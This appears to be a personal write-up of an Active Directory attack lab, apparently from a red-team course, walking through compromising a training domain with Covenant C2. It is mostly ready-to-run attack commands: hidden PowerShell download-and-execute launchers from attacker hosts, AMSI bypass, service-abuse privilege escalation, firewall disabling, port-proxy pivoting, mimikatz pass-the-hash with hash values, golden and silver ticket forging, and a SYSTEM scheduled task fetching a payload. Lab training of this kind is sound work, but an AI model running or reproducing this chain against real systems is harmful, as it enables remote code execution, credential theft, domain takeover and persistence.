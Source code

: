 In this write up i will skip all the part that are unnecessary because this is the second run for me

Configure Covenant and download the Grunt on the student vm
```powershell
powershell -Sta -Nop -Window Hidden -Command "iex (New-Object Net.WebClient).DownloadString('http://127.0.0.1/pslauncher.ps1')"
```

Before running any command on the new Grunts we need to run the built-in task BypassAmsi always to avoid .NET AMSI Triggers.

### **Learning Objetive 1**
Use the built-in task of PowerView *PowerShellImport* to import PowerView.ps1

Once you done this you can go on the interact tab to launch the powerview command
```powerview
PowerShell Get-DomainUser
```
![[Pasted image 20231116172507.png]]


### **Learning Objetive 5 - exploit to student admin - First Lateral Movement**
Import powerup.ps1
and run the following command
```powerup
PowerShell Get-ServiceUnquoted
```
![[Pasted image 20231116173021.png]]
and
```powerup
PowerShell Get-ModifiableService
```
![[Pasted image 20231116173115.png]]
exploit it by installing a new grunt as local admin
```powerup
PowerShell Invoke-ServiceAbuse -Name 'AbyssWebServer' -Command 'cmd.exe /c powershell.exe -Command "IEX (iwr "http://172.16.99.115/bruno.ps1" -UseBasicParsing)"'
```
![[Pasted image 20231116173400.png]]


Now look for derivate local admin by importing the Find-PSRemotingLocalAdminAccess.ps1 powerShell script and launch it
```interact
PowerShell Find-PSRemotingLocalAdminAccess
```
![[Pasted image 20231220121846.png]]

Tehere is a firewall between our kali and other machine, so we will use StudentVM as pivot
On StudentVM
```
ShellCmd netsh interface portproxy add v4tov4 listenport=80 listenaddress=0.0.0.0 connectport=8080 connectaddress=172.16.99.115
```
To check for Local Firewall
```
PowerShell Get-NetFirewallProfile
```
To disable local firewall
```
PowerShell Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```
Setup a new listener to link to the studentvm tunnel just created
![[Pasted image 20231220122530.png]]
And create a related launcher and launch it on the victim


### **Learning Objective 7 - Derivate Local Admins**
Import powerview and use it on dcorp-ci
```
PowerShell Find-DomainUserLocation
```
![[Pasted image 20231220152313.png]]
Now we can launch a download and execution command on the dcorm-mgmt machine from dcorp-ci to open a new grunt
```
PowerShell Invoke-Command -ScriptBlock {PowerShell -Sta -Nop -Window Hidden -Command "IEX (iwr 'http://172.16.100.115/StudentVMGrunt.ps1' -UseBasicParsing)"} -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
```
Now we can run mimikatz do dump all the hashes
![[Pasted image 20231220152858.png]]
Since now we have the svcadmin (Domain admin) creds we can use mimikatz to use the Over-Pass the Hash attack
Create a new binary launcher on studentListener
![[Pasted image 20231220153823.png]]
Host it
To perform the attack select the task mimikatz and launch the command (You need to have the file on the pwned machine). aes256 not rc4
```
"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /run:C:\Users\Public\Downloads\BinaryStudent.exe"
```
![[Pasted image 20231220155219.png]]
New grunt inside the launcher pwned machine will appear that has the svcadmin token inside
```
ls \\dcorp-dc.dollarcorp.moneycorp.local\C$
```
![[Pasted image 20231220155527.png]]

### **Learning Objective 8 - Create a Golden Ticket **

With Invoke-Mimikatz forge a golden ticket using the krbtgt hash
```
PowerShell Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
Use it

Create a silver ticket to HOST service to create a schedule task that open a new grunt
```
PowerShell Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:1be12164a06b817e834eb437dc8f581c /user:Administrator /ptt"'
```
![[Pasted image 20231221104317.png]]
The task will launch the Binary launcher already created
```
ShellCmd schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "User115" /TR "powershell.exe -c 'iwr -UseBasicParsing http://172.16.100.115/StudentVMGrunt.exe -OutFile C:\Users\Public\StudentVMGrunt.exe; Start-Process C:\Users\Public\StudentVMGrunt.exe;'"
```

